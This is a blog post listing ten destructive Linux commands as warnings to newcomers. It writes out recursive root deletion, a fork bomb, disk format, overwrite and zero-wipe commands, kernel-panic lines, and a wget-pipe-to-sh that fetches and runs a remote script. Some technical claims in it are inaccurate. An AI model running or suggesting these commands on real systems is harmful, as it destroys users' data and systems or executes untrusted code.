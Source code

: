 ```yaml
---
layout: post
title: 10 Most Dangerous Commands
subtitle: You Should Never Execute on Linux
bigimg: /img/mostcommands.gif
---
```


## 10 Most Dangerous Commands
You Should Never Execute on Linux

### 1. rm -rf Command
Commonly known as the recursive delete command, the rm -rf command is one of the fastest way to delete a folder and its contents. But a little typo or ignorance may result into unrecoverable system damage. The some of options used with rm command are.

```
1. rm command in Linux is used to delete files.
2. rm -r command deletes the folder recursively, even the empty folder.
3. rm -f command removes ‘Read only File’ without asking.
4. rm -rf / : Force deletion of everything in root directory.
5. rm -rf * : Force deletion of everything in current directory/working directory.
6. rm -rf . : Force deletion of current folder and sub folders.
```

Hence, be careful when you are executing rm -rf command. To overcome accidental delete of file by ‘rm‘ command, create an alias of ‘rm‘ command as ‘rm -i‘ in ".bashrc" file, it will ask you to confirm every deletion.’

Note, these days on most Linux systems if you tried doing this you’d get a warning. But the warning isn’t guaranteed, so just don’t do it.

## 2. :(){:|:&};: Command
   
This command is actually a fork bomb. It operates by defining a function called ‘:‘, which calls itself twice, once in the foreground and once in the background. It keeps on executing again and again till the system freezes.
   
> :(){:|:&};:

This fork bomb command defines a function named : that recursively calls itself twice when executed. One of the recursive calls happens in the foreground while the other happens in the background.
   
In other words, whenever this function executes, it spawns two child processes. Those child processes spawn their own child processes, and this cycle keeps going in an infinite loop. The only way out of it is to reboot the system.

## 3. Format Hard Drive
   
The terminal is especially tricky for Linux newbies because it provides several ways to accidentally wipe one’s hard drive. Recursive deletion is a big one, but here’s another:
   
> mkfs.ext3 /dev/hda

This command formats the hard drive to use the ext3 filesystem.The above command will format the block ‘sda’ and you would surely be knowing that after execution of the above command your Block (Hard Disk Drive) would be new, BRAND NEW! Without any data, leaving your system into unrecoverable stage.

## 4. Overwrite Hard Drive

Never use this command if your workstation contains life long work. At least disk formatting is an actual procedure with real-life uses; directly overwriting one’s drive, on the other hand, is not so great.

> 'command' > /dev/hda

In the command above, command can be replaced by any Bash command. The > operator redirects the output from the command on its left to the file on its right. In this case, it doesn’t matter what the output of the left command is. That raw data is being redirected and used to overwrite the system hard drive. This renders your Linux PC/laptop useless.

## 5. Wipe Hard Drive
   
   This command will completely wipe out your hard drive. No data corruptions or overwrites; it will literally fill your hard drive with zeroes. While this command can be necessiated if you have to start afresh but wiping your hard drive is a bad idea.
   
> dd if=/dev/zero of=/dev/hda

The dd command is a low-level instruction that’s mostly used to write data to physical drives. The ifparameter determines the source of data, which in this case is **/dev/zero**, a special on Linux that produces an infinite stream of zeroes. The of parameter determines the destination of those zeroes, which is the /dev/hda drive.

## 6. > file Command
   
The above command is used to flush the content of file. If the above command is executed with a typo or ignorance like “> xt.conf” will write the configuration file or any other system or configuration file and lead to a complete breakdown of your PC/workstation.

## 7. Implode Hard Drive
   
For some special reasons, Linux has a special file called **/dev/null** that will discard whatever data is written to it. You can think of it as a black hole or a file shredder: anything given to it as input will be eaten up for good. You must have understood what I was alluding to. Running any command with **/dev/null** can shred that particular data file. However using the **/dev/null** with some other commands can be quite devastating for you.
   
> mv / /dev/null

The above mv command tries to move the system’s root directory **/** into the black hole of **/dev/null**. This is a valid command and the result is devastating: the hard drive gets eaten up and there’s nothing left. Doing this will make your system unusable.

## 8. ^foo^bar
   
   FUBAR stands for **fucked up beyond all recognition/any repair/all reason**. As the name suggests, this command if not used properly can fuck up your system. This command is used to edit the previous run command without the need of retyping the whole command again. But this can really be troublesome if you didn’t take the risk of thoroughly checking the change in original command using **^foo^bar** command.
   
 ## 9. Cause Kernel Panic
    
While Windows has its infamous BSoD or Blue Screen of Death, Linux has a similar Blue Screen which is known as **Kernel Panic**. Sometimes, an internal error occurs from which recovery is impossible, so the system will enact something similar to the Blue Screen: a kernel panic. 

```
dd if=/dev/random of=/dev/port
echo 1 > /proc/sys/kernel/panic
cat /dev/port
cat /dev/zero > /dev/mem
```

If the above commands aren’t important here. What is important is that running any of those lines will result in a kernel panic, forcing you to reboot your system. It’s best to stay away from these commands unless you’re absolutely sure you know what you’re doing.

## 10. Execute Remote Script

Here’s an innocent command that can actually be useful in day-to-day life on a Linux system. **wget** retrieves the contents of a web URL, which can be used to access websites or download files. However, there’s a simple trick that turns it dangerous:

> wget http://an-untrusted-url -O- | sh
 

**wget http://malicious_source -O- | sh** command will download a script from a malicious source and then execute it. Wget command will download the script and sh will execute the downloaded script.The above combination downloads the contents of the given URL and immediately feeds it to the **sh** command, which executes the downloaded contents in the terminal. If the URL were to point to a malicious script, you’d be sealing your own fate with this command.

Font [TechWorm](http://www.techworm.net/2016/10/10-lethal-linux-commands-never-execute.html)